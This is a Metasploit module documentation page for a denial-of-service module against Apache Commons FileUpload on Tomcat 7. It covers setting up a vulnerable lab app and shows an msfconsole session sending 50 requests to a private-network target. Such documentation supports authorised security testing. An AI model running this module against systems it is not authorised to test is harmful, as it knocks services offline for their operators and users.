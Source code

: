 ## Vulnerable Application

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.50/bin/apache-tomcat-7.0.50.exe)
3. Download the example [multipart form war file](https://github.com/rapid7/metasploit-framework/files/712278/sample-multipart-form.zip)
4. Unzip sample-multipart-form.zip && cd sample-multipart-form
  1. If Compiling: `mvn clean package`
5.  `cp target/sample-multipart-form.war $TOMCAT-7.0.50/webapps/`
6. Start Tomcat (linux: `$TOMCAT-7.0.50/bin/startup.sh`
7. Check if the webapp is running: `http://localhost:8080/sample-multipart-form/multipartForm`

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```run```
  5. You should get a shell.

## Options

  **TARGETURI**

  The URI where the multipart form is located.  There is no real default and this will change based on the application.

## Scenarios

Scenario uses the sample multipart form provided in this documentation, against Tomcat 7.0.50 on a Windows XP system.

```
msf exploit(handler) > use auxiliary/dos/http/apache_commons_fileupload_dos
msf auxiliary(apache_commons_fileupload_dos) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf auxiliary(apache_commons_fileupload_dos) > set rport 8087
rport => 8087
msf auxiliary(apache_commons_fileupload_dos) > set TARGETURI /sample-multipart-form/multipartForm
TARGETURI => /sample-multipart-form/multipartForm
msf auxiliary(apache_commons_fileupload_dos) > run

[*] Sending request 1 to 192.168.2.108:8087
[*] Sending request 2 to 192.168.2.108:8087
[*] Sending request 3 to 192.168.2.108:8087
[*] Sending request 4 to 192.168.2.108:8087
[*] Sending request 5 to 192.168.2.108:8087
[*] Sending request 6 to 192.168.2.108:8087
[*] Sending request 7 to 192.168.2.108:8087
[*] Sending request 8 to 192.168.2.108:8087
[*] Sending request 9 to 192.168.2.108:8087
[*] Sending request 10 to 192.168.2.108:8087
[*] Sending request 11 to 192.168.2.108:8087
[*] Sending request 12 to 192.168.2.108:8087
[*] Sending request 13 to 192.168.2.108:8087
[*] Sending request 14 to 192.168.2.108:8087
[*] Sending request 15 to 192.168.2.108:8087
[*] Sending request 16 to 192.168.2.108:8087
[*] Sending request 17 to 192.168.2.108:8087
[*] Sending request 18 to 192.168.2.108:8087
[*] Sending request 19 to 192.168.2.108:8087
[*] Sending request 20 to 192.168.2.108:8087
[*] Sending request 21 to 192.168.2.108:8087
[*] Sending request 22 to 192.168.2.108:8087
[*] Sending request 23 to 192.168.2.108:8087
[*] Sending request 24 to 192.168.2.108:8087
[*] Sending request 25 to 192.168.2.108:8087
[*] Sending request 26 to 192.168.2.108:8087
[*] Sending request 27 to 192.168.2.108:8087
[*] Sending request 28 to 192.168.2.108:8087
[*] Sending request 29 to 192.168.2.108:8087
[*] Sending request 30 to 192.168.2.108:8087
[*] Sending request 31 to 192.168.2.108:8087
[*] Sending request 32 to 192.168.2.108:8087
[*] Sending request 33 to 192.168.2.108:8087
[*] Sending request 34 to 192.168.2.108:8087
[*] Sending request 35 to 192.168.2.108:8087
[*] Sending request 36 to 192.168.2.108:8087
[*] Sending request 37 to 192.168.2.108:8087
[*] Sending request 38 to 192.168.2.108:8087
[*] Sending request 39 to 192.168.2.108:8087
[*] Sending request 40 to 192.168.2.108:8087
[*] Sending request 41 to 192.168.2.108:8087
[*] Sending request 42 to 192.168.2.108:8087
[*] Sending request 43 to 192.168.2.108:8087
[*] Sending request 44 to 192.168.2.108:8087
[*] Sending request 45 to 192.168.2.108:8087
[*] Sending request 46 to 192.168.2.108:8087
[*] Sending request 47 to 192.168.2.108:8087
[*] Sending request 48 to 192.168.2.108:8087
[*] Sending request 49 to 192.168.2.108:8087
[*] Sending request 50 to 192.168.2.108:8087
[*] Auxiliary module execution completed
```

 ![tomcat7_dos](https://cloud.githubusercontent.com/assets/752491/22169486/71980e2e-df42-11e6-8353-4f1e260375ee.png)
 
